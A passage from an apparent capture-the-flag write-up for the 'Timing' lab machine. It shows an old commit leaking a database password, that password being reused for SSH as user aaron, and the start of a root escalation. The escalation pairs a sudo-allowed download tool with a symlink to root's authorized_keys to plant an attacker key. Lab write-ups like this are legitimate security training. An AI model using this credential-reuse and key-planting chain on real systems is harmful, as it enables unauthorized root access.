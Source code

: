 Restore the previous commit and you will find a different password in the file:

```bash
> git --no-pager -C /tmp/blub/backup checkout e4e214696159a25c69812571c8214d2bf8736a3f
>
> cat /tmp/blub/backup/db_conn.php
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
```

This is also the SSH password for user `aaron`.

```bash
$ ssh aaron@10.10.11.135
password: S3cr3t_unGu3ss4bl3_p422w0Rd
```

## Root

The Privilege Escalation is rather straight forward.

```bash
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/ur/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```

`sudo /usr/bin/netutils` allows you to download a file into the current working directory with root permissions.

On your own machine generate private and public SSH keys:

```bash
ssh-keygen -t rsa -b 4096 -f ./id_rsa
```

Rename the public key to some custom name.

```bash
mv id_rsa.pub muesli
```

Start an http server in the directory where your keys are located.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target create a symbolic link to root's authorized_keys file with the same name as your renamed public key.

```bash
aaron@timing:~$ ln -s /root/.ssh/authorized_keys muesli
```
